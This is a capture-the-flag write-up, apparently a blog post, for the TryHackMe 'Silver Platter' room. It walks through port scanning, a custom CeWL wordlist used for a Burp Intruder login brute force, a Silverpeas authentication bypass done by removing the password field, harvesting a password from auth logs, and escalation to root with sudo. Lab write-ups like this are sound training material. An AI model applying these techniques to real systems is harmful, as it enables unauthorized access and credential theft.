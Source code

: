 ```yaml
---
layout: post
title: "TryHackMe:Silver Platter"
date: 2025-01-13 03:00:00 +0000
categories: [Tryhackme, Silver Platter]
tags: [Tryhackme]
---
```


Silver Peas is a easy level room by [TeneBrae93](https://tryhackme.com/r/p/TeneBrae93).It’s well-designed, teaches useful skills like privilege escalation and exploitation, and feels realistic. It might be tricky at times, but it’s super rewarding once you crack it. Definitely worth a try!

## <b>Initial Enumeration:</b>

<b>Let's start with nmap</b>
```console
nmap 10.10.121.208 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-13 08:43 EST
Nmap scan report for 10.10.121.208
Host is up (0.16s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
```
Found Three ports open:


```22```      ssh

```80```      http

```8080```    http

### HTTP ```80```

![web](assets/images/img1.jpg)

### HTTP ```8080```

![web](assets/images/img2.png)

<b>Found a Login Page on http://10.10.121.208:8080/silverpeas/</b>

![login page](assets/images/img3.png)

As stated in the room description, [``` their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). ```] 

we are not recommended to use the rockyou.txt wordlist because their password policy checks against it to ensure that passwords haven't been compromised.

So, we will make our own Wordlist

i did some research and came across this tool named 'CeWl'

```CeWL (Custom Wordlist Generator) is a tool for generating wordlists by scraping websites. It's commonly used for cybersecurity and penetration testing to create targeted wordlists.```

```console
┌──(root㉿kali)-[/home/kali]
└─# cewl http://10.10.121.208/ > password.txt
```

Found the password for the username "scr1ptkiddy" using password.txt in Burp Suite's Intruder.

![burpsuite](assets/images/img4.jpg)

We can now login with the username and password we Found

<B>OR</B>

We can use info from the CVE Found for silverpeas

[CVE:Silverpeas authentication bypass](https://github.com/advisories/GHSA-4w54-wwc9-x62c)

According to which we can login into silverpeas web page by removing password field

![cve](assets/images/img6.jpg)

we'll try the following 

![](assets/images/img8.jpg)

ANDD!! We got the login

I found SSH password for user:Tim and pass on notification tab beside user profile 

![ssh](assets/images/img10.jpg)

## Gaining Foothold

![user.txt](/assets/images/img13.jpg)

## Privilage Escalation

First we will Try classic ```sudo -l``` approch
 
```console
tim@silver-platter:/$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```
We can't do anything as Tim

But I got intersting group in Our machine
```console
tim@silver-platter:/$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)

```

Traditionally the adm group is used to give a user access to some sort of system log files.
e.g. ls -l /var/log.

I Checked the log files and found the ssh password for user:tyler

```console
tim@silver-platter:/var/log$ cat auth.log auth.log.1 auth.log.2 | grep 'PASSWORD'
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Z********3/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

## Sudo as Root

![sudo as tyler](/assets/images/sudoastyler.jpg)

```console
tyler@silver-platter:/$ cd /root
bash: cd: /root: Permission denied

```

We'll try sudo -l

```console
tyler@silver-platter:/home/tim$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL
```
We can run all commands as tyler
so We'll just Sudo bash a login into root and get  root.txt
```console
tyler@silver-platter:/$ sudo bash
root@silver-platter:/# cat /root/root.txt
THM{0**************************6}
```

Happy hacking !!